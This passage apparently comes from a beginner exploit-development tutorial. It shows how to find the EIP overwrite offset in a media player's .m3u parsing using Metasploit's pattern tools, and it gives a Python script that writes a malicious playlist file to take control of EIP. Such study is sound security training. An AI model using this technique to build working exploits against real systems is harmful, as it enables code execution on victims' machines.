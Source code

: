 Okay great, as EIP has the value of `42424242` (BBBB), it tells us that somewhere in our 5000 Bs EIP has already been reached.

To determine the exact position of EIP, we will use a pattern. Think of it like

`A123B123C123D123`. This is a pattern right? So if EIP contains `C123` for example, I'll instantly know that it takes 8 bytes to reach EIP, and the rest after that can be junk.

Your kali box comes with two very important tools for this: `pattern_create.rb` and `pattern_offset.rb`. So let's generate a unique pattern of length 5000 and use that in our script.

`/usr/share/metasploit-framework/tools/pattern_create.rb -l 5000`

![Pattern generator trash](/images/chapter1/image8.png)

Let's generate the file with metasploit and load it within the debugger.

![Debugger](/images/chapter1/image9.png)

As I said before, the one that is highlighted in green is the value stored in ESP. If you go one address up in the stack window, you will see what's stored in EIP. `J8bj` in my case. Now, let's find out how many bytes did it take to reach EIP using `pattern_offset.rb`.

`/usr/share/metasploit-framework/tools/pattern_offset.rb -q j8bj`

I get the offset as 1075. So now, my final structure will look something like this:

`"A"*(25000+1075) + "BBBB" + "C"*(30000-((25000+1075) + 4)`


```python
import os
import sys

f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "BBBB"
junk2 = "C"*(30000-(len(junk1+eip)))
crash = junk1 + eip + junk2
f.write(crash)
f.close()
```

Now, let's see if our Math game is strong ;)

![EIP Control](/images/chapter1/image10.png)

Yess! We now have control of the EIP which determines the next instructions to be executed. If you made it this far give yourself a pat on the back! In the next chapter we'll be generating and placing shellcode then with our control over EIP executing our payload.
